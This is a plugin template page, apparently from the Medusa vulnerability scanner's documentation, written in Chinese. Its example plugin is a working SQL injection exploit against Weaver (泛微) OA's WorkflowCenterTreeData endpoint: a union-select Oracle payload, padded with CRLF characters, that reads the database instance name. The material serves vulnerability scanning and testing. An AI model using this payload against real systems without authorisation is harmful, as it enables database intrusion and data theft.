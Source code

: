 ## 插件模板

以最新的```泛微OA```插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import ClassCongregation
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="0" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['createDate'] = "2020-10-13"  # 插件编辑时间
        self.info['disclosure']='2020-10-13'#漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "Weaver_WorkflowCenterTreeDataInterfaceInjectionVulnerability"  # 插件名称
        self.info['name'] ='泛微OA_WorkflowCenterTreeData接口注入漏洞' #漏洞名称
        self.info['affects'] = "泛微OA"  # 漏洞组件
        self.info['desc_content'] = "泛微OA_WorkflowCenterTreeData接口注入漏洞"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['suggest'] = "尽快升级最新系统"  # 修复建议
        self.info['version'] = "xxx版本-xxx版本"  # 这边填漏洞影响的版本
        self.info['details'] = Medusa  # 结果
def medusa(Url,RandomAgent,ProxyIp):
    scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url +":"+ str(port)+ payload
        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }
        s = requests.session()
        resp = s.post(payload_url,
                      data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                            'v$instance order by (((1'},
                      headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.find('''"draggable":''') != -1 and con.find(
                '''"checked":''') != -1 and con.find('''"id":''') != -1 and con.find(
                '''"text":''') != -1:
            Medusa = "{}存在泛微OA_WorkflowCenterTreeData接口注入漏洞\r\n 验证数据:\r\nUrl:{}\r\nPayload:{}\r\n".format(url,payload_url,resp.headers)
            _t=VulnerabilityInfo(Medusa)
            web=ClassCongregation.VulnerabilityDetails(_t.info)
            web.High() # serious表示严重，High表示高危，Intermediate表示中危，Low表示低危
            return (str(_t.info))
    except Exception:
        _ = VulnerabilityInfo('').info.get('algroup')
        _l = ClassCongregation.ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
        
```
